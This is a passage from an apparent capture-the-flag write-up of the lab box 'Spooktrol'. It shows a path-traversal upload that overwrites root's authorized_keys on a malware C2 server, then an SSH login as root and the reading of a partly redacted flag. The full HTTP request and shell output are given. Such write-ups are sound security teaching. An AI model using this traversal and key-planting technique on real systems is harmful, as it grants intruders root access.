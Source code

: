 
It still reports success. And, given that it’s likely writing in the system
root at this point, it’s likely that the C2 is running as root.

If I try to write to a folder that doesn’t exist (like `../0xdf-folder`), it
returns:

    
    
    {"message":"Internal Server Error"}
    

#### SSH

It seems not uncommon for malware C2 to run as root, so I’ll try overwriting
the `authorized_keys` file for root:

    
    
    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 247
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close
    
    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="../../../../../../../root/.ssh/authorized_keys"
    Content-Type: text/plain
    
    this is some test data
    
    --------------------------184989c6c833691c--
    

Again, it reports success. I’ll try again with my public key as the body of
the file.

It doesn’t allow me to SSH as root on port 22:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.11.123
    Warning: Permanently added '10.10.11.123' (ECDSA) to the list of known hosts.
    root@10.10.11.123's password:
    

But it does on TCP 2222:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen -p 2222 root@10.10.11.123
    ...[snip]...
    root@spook2:~#
    

`user.txt` is in the home directory:

    
    
    root@spook2:~# cat user.txt 
    c0d5e7bd***********************
    